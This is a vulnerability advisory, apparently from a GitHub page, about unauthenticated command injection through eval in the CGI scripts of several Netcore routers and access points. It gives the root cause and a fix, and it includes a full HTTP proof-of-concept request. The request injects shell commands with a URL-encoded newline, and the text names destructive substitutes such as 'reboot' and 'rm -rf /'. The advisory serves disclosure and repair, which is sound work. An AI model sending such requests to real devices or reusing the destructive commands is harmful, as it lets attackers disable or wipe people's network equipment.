



<!-- more -->

# Unauthorized Command Injection Vulnerability in Multiple Router and Wireless AP Products of Netcore

## I. Involved Products and Firmware Download Addresses

NBR1005GPEV2：https://www.netcoretec.com/service-support/download/firmware/2707.html

B6V2：https://www.netcoretec.com/service-support/download/firmware/2703.html

COVER5：https://www.netcoretec.com/service-support/download/firmware/2680.html

NAP930：https://www.netcoretec.com/service-support/download/firmware/2704.html

NAP830：https://www.netcoretec.com/service-support/download/firmware/2708.html

NBR100V2：https://www.netcoretec.com/service-support/download/firmware/2706.html

NBR200V2：https://www.netcoretec.com/service-support/download/firmware/2705.html

POWER13：https://www.netcoretec.com/service-support/download/firmware/2700.html

## II. Cause of the Vulnerability

Under the file system directory `/www/cgi-bin/`, there are shell script files such as ` acbackup`, `backup`, `upgrade`, `ac_upgrade`, and `upgradeAP`. These scripts will first process the request fields using the urldecode function, then split the param by `&`, and then separate the `key`and `val `by `=`. Finally, this command  `eval "${key}='${val}'"`is executed.Obviously, the `key` is not wrapped in single quotes (`'`), and `eval` will perform a secondary parsing of the expanded string. If the `key` is an executable command, `eval` will directly execute that command.



This vulnerability exists in the Query String parsing logic of the router's Web management interface. Attackers can construct malicious URL parameters to bypass the filtering of most metacharacters by urldecode and only use the **newline character** as the command delimiter. This function filters a variety of metacharacters, parses `%XX` in the URL to `\xXX` and then to the real character, and replaces the + character with a space.



In `/usr/sbin/uhttpd`, by combining the source code found online and the decompiled code, when the client initiates an HTTP request prefixed with `/cgi‑bin/`, uHTTPd will transfer the request to the corresponding CGI program. It will first call clearenv() in the child process and set environment variables such as REQUEST_METHOD, QUERY_STRING, CONTENT_LENGTH, and SCRIPT_NAME according to the CGI specification. Finally, it calls the script itself through execl(), and the script uses the environment variables to receive the request parameters.



## III. Explanation of the POC

```
POST /cgi-bin/acbackup?mkdir+/tmp/test1+%0Afoo=bar&mac=123 HTTP/1.1
Host: 192.168.50.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 128
Origin: http://192.168.50.2
Connection: keep-alive
Referer: http://192.168.50.2/login.html{"jsonrpc": "2.0", "id": 1, "method": "call", "params": [ "00000000000000000000000000000000", "routerd", "login_name_get",{} ] }
```

The request content can be arbitrary. Scripts like acbackup will parse the Query String, and commands such as ` mkdir+/tmp/test1` can be replaced with commands like ` reboot`, `rm+-rf+/+` and other commands to cause damage to the router.

## IV. Demonstration Video

The video demonstrates the vulnerability demonstration taking NBR1005GPEV2 as an example. The injected commands are `mkdir /tmp/test1`, `mkdir /tmp/test2`, `reboot` (with a delay), `rm -rf /`, and the code `echo "$key" > /dev/console` is added in acbackup to more intuitively see the string when the parameter query_string is assigned to the key after a series of parsing processes.

## V. Repair Suggestions

Change the vulnerable execution statement `eval "${key}='${val}'"` in the corresponding script to `eval "'${key}'='${val}'"`, and add the filtering of CRLF in urldecode.

**Discoverer: Exploo0Osion.
Please contact Netcore (Netis Technology) technical support to fix this vulnerability in a timely manner.**
